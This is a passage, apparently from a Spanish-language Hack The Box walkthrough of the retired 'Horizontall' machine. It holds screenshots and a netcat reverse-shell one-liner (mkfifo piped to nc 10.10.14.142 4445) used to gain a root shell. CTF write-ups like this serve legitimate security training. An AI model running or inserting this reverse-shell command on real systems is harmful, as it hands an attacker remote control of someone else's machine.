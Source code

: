 Y si tenemos el Lab Setup bien, lo veremos asi 

![](/home/g4l1l30/G4l1l30/HTB/Boxes/Retired/horizontall.htb/content/34.png)



Bien, ahora a darle al exploit :D , dejamos netcat a la escucha y vamos a obtener un reverse shell con `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.142 4445 >/tmp/f` 



![](/home/g4l1l30/G4l1l30/HTB/Boxes/Retired/horizontall.htb/content/35.png)



Somos root :)
